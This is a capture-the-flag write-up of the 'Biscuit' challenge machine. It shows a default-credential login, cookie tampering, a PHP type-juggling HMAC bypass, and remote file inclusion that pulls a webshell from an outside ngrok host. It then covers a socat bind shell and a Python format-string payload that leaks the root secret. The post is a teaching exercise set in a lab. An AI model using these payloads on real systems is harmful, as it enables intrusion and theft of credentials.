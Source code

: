 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) - eng"
tags: eng ctf write-up
---
```

<script async src="https://www.googletagmanager.com/gtag/js?id=G-72MZ89K41P"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-72MZ89K41P');
</script>

Hello, I'm Vinicius (big0us), this is a write-up of a machine that was the challenge for one of UHC's qualifiers. (translate to english by [0day](https://twitter.com/0dayctf))
Happy reading :)
g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

The first page you're greeted with a login page, taking a look at the HTML of the page, apparently there's
nothing hidden, I'll fuzz first, then we can test some credentials.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Apparently our fuzzing only showed a /class, where there is a directory listing pointing
to a ".php" file.

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Okay, let's test some default credentials in the login form:

```
admin:admin
guest:guest
administrator:admin
root:root
```

By testing "guest:guest" we were able to enter:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Looking around apparently, we only have a welcome page.
Let's check our cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Using cyberchef to decode the cookie, we can see that it's JSON with three values:
hmac (probably something that validates the values), username, and a time for the
cookie to expire.

I'm going to try to change the username value in the cookie to "admin" with base64 & URL encoding, and
then send back to the application.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

This page showed an error saying that we're trying to do "cookie tampering", and
returned a flag! The first flag.
After some tests, sending cookies with other random values, I realized that
the application validates the cookie by the value of hmac, and not by the entire content
of json.
A well-known vulnerability about PHP validations is type-juggling, which consists of
bypassing authentications by making any if($ == $) that will always return "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basically when a programmer uses "==" in a php comparison, first it makes the two values
the same type, ignoring the type (int, str...) of the variables.
And in this situation we can use some techniques for the comparison to return "true".

# Exploitation

After trying for quite a while, I tried changing the value of "hmac" to "true" and luckily it
worked!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Okay :( I was sad that there are no flags here.
I'll try to change the username again, to understand what's going on.

Changing to "test", php gives us an error, it seems it's running a "require_once" on
the value we put & appending ".php" at the end. require_once is normally used to include
pages and php files in websites, and when the user has control over the value that
require_once uses, the application is vulnerable to LFI or RFI (Local/Remote File
Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

As the application already puts the .php at the end, I will do the following.
Upload a file with a webshell on a server using ngrok, then tell the application to include my
file and get an RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

And I will send the payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(The application now puts the .php)

We have RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Now I'm going to try to get a reverse shell.
After a few attempts I realized that there is a firewall in the application that blocks any
communication on ports other than 80 or 443, since I don't have a VPS, I'll do it differently, instead of a reverse shell (where the victim connects back to me) I'm going to use a bind shell (opening a port on the machine and connecting to it). For this I will use "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

First I got the socat binary in their github (socat binary) and passed it to the machine
using the web-server that I created to get RCE, and curling it.
I ran the commands that are in the image and got a bind shell! (I used port 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

In "/" have our next flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Post Exploitation

Doing the basic privesc checklist, we can see that we are the apache user and we
can run a script as root on the machine:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Apparently we can't read the script or change it.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

What's left for us to do, is to simply RUN IT!:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

The file prints an IP with option 2 (List Blocked IP's), taking a look at /var/www/html the web application path, we
can see that there is a file with the same IP that was printed, so it's printing the IP that is in the file.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

I opened the file with nano (before running 'export TERM=xterm' !!) and started editing
it, to try and provoke some type of error in python that would show me something from the
program.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interestingly, there is a different (not used often) format string running.
Searching about this type of format string + vulnerabilites, I ended up stumbling on this
article.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basically it explains everything we need to do, so I won't explain it again, but
the way this format string works, allows us to inject more strings to be formatted, and if
this is printed we can print all the global variables that the file uses, usually giving us
some key or password.

Okay here is my final payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

This worked and we got the value of a variable called root_secret, it's probably
the root password.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!
Thanks to you who've read this far, I hope you enjoyed this challenge / writeup!